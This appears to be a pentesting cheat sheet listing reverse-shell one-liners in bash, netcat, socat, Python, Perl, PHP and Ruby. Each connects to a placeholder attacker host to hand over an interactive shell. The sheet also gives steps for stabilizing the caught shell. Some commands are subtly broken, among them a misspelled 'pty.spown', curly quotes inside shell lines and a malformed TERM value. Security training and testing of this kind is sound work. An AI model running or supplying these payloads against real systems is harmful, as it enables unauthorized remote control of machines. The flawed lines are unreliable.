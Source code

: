 # Reverse Shells

#### Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

#### Netcat

```bash
nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

#### Socat

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444 # on attacker

socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444 # on victim
```

#### Python

{% code overflow="wrap" %}
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{% endcode %}

#### Perl

{% code overflow="wrap" %}
```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
{% endcode %}

#### PHP

```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Ruby

{% code overflow="wrap" %}
```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
{% endcode %}



### Stabilize Shell

```bash
/bin/sh -i

echo os.system('/bin/bash')

exec "/bin/sh";

perl -e 'exec "/bin/sh";’

python -c 'import pty;pty.spown("/bin/bash");'
```



* background the shell then find your terminal rows and columns with the following command
* `stty -a | head -n1 | cut -d ';' -f 2-3 | cut -b2- | sed 's/; /\\n/’`
* `stty raw -echo`
* `fg` It will re-open the reverse shell but formatting will be off. Finally, reinitialize the terminal by hitting the enter button once or twice
* `export SHELL=bash`
* `export TERM=xterm256-color`
* `stty rows 38 columns 116`

####

